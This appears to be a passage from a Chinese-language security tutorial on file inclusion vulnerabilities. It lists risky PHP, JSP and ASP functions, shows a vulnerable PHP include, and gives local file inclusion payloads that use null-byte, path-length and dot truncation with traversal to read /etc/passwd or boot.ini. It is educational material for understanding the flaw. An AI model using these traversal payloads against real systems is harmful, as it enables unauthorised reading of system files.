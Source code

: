 ## 文件包含

常见的导致文件包含的函数有：

- PHP：`include()`，`include_once()`，`require()`，`require_once()`，`fopen()`，`readfile()` 等
- JSP Servlet：`ava.io.File()`，`java.io.FileReader()` 等
- ASP：`includefile`，`includevirtual` 等

当 PHP 包含一个文件时，会将该文件当做 PHP 代码执行，而不会在意文件时什么类型。

### 本地文件包含

本地文件包含，Local File Inclusion，LFI。

```php
<?php
$file = $_GET['file'];
if (file_exists('/home/wwwrun/'.$file.'.php')) {
  include '/home/wwwrun/'.$file.'.php';
}
?>
```

上述代码存在本地文件包含，可用 %00 截断的方式读取 `/etc/passwd` 文件内容。

- `%00` 截断

  ```
  ?file=../../../../../../../../../etc/passwd%00
  ```

  需要 `magic_quotes_gpc=off`，PHP 小于 5.3.4 有效。

- 路径长度截断

  ```
  ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
  ```

  Linux 需要文件名长于 4096，Windows 需要长于 256。

- 点号截断

  ```
  ?file=../../../../../../../../../boot.ini/………[…]…………
  ```

  只适用 Windows，点号需要长于 256。

### 远程文件包含

远程文件包含，Remote File Inclusion，RFI。

```php
<?php
if ($route == "share") {
  require_once $basePath . "/action/m_share.php";
} elseif ($route == "sharelink") {
  require_once $basePath . "/action/m_sharelink.php";
}
```
